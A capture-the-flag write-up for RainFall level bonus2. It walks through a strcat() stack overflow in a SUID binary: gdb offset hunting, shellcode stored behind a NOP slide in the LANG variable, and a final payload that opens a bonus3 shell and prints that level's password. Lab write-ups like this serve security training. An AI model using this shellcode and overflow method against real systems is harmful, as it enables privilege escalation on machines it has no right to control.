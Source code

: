 # Level bonus 2

## Vulnerability

strcat() stack overflow

## Context

We find a binary with owner ```bonus3``` and SUID.
```
bonus2@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```
When run with 0 or 1 arguments, it does nothing. Run with 2 arguments it prints "Hello " + first argument.
```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 wait
bonus2@RainFall:~$ ./bonus2 wait what?
Hello wait
```

## Solution

In summary, the program expects to be given a username, then prints "Hello <username>".

Investigating with gdb we find ```main()``` initializes a 72 byte buffer, copies 40 bytes from argv[1], then 32 bytes from argv[2]. It then checks the language env variable, setting global variable ```lang```: English (default) = 0, Finnish = 1, Dutch = 2.

```main``` then calls function ```greetuser()``` which copies "Hello " (in the appropriate language) into a 64 byte buffer, then concatenates the given username string. Finally ```puts``` prints the buffer "Hello <username>".

It looks like when using ```strcat()``` to concaternate the 72 byte ```main()``` buffer to the 64 byte ```greetuser()``` buffer, it could overflow. Lets try to break it.
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

### Find EIP offset

Great, lets see if we can overwrite the EIP. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find our overflow does not reach the EIP.
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
Perhaps if we change language, so have a longer greeting message, our overflow will reach the EIP. In Finnish we find our EIP offset is 18.
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ env | grep "LANG"
LANG=fi
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
In Dutch we find our EIP offset is 23.
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```

### Store exploit in env

Next: overwrite EIP with what address? Where we should store our malicious code? We export our malicious code into the ```env``` following the ```export LANG=fi``` (Let's be Finnish!).

First a NOP slide ```'\x90' * 100```, then our [malicious shell code which calls system, opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) same as previous levels. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```. 

Putting that together:
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

### Find exploit address

Find the address of NOP slide in the env language variable with gdb. Create a break point at ```getenv("LANG")```, run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) break *main+125
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe79:	 "LANG=fi\220\220...
```
We find our exploit stored after the language var starting at ```0xbffffe79```. We need to add to this address to land somewhere on our NOP slide, lets add 42 giving us the target address ```0xbffffea3```.

### Build overflow string

So, we build our first argument:
* 40 bytes padding - ```$(python -c 'print "A" * 40')```

And our second argument:
1. 18 bytes padding (23 if Dutch) - ```$(python -c 'print "B" * 18')```
2. address on NOP slide in env language variable - ```\xa3\xfe\xff\xbf```

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Recreate Exploited Binary

As user ```bonus3```, in ```/tmp```, create and compile ```bonus2_source.c```
```
bonus3@RainFall:/tmp$ gcc bonus2_source.c -fno-stack-protector -z execstack -o bonus2_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus3@RainFall:/tmp$ chmod u+s bonus2_source; chmod +wx ~; mv bonus2_source ~
```

Exit back to user ```bonus2```, then provide our exploit as argument to the source. Luckily, the env language var address is similar, so the return address doesn't need updating.
```
bonus3@RainFall:/tmp$ exit
exit
bonus2@RainFall:~$ /home/user/bonus3/bonus2_source $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
```

To find the new env language variable with gdb. Find the addess of ```getenv("LANG")``` in ```main``` and create a break point, run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) disas main
...
   0x080485d2 <+131>:	call   0x80483a0 <getenv@plt>
...
(gdb) break *main+131
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe72:	 "LANG=fi\220\220...
```
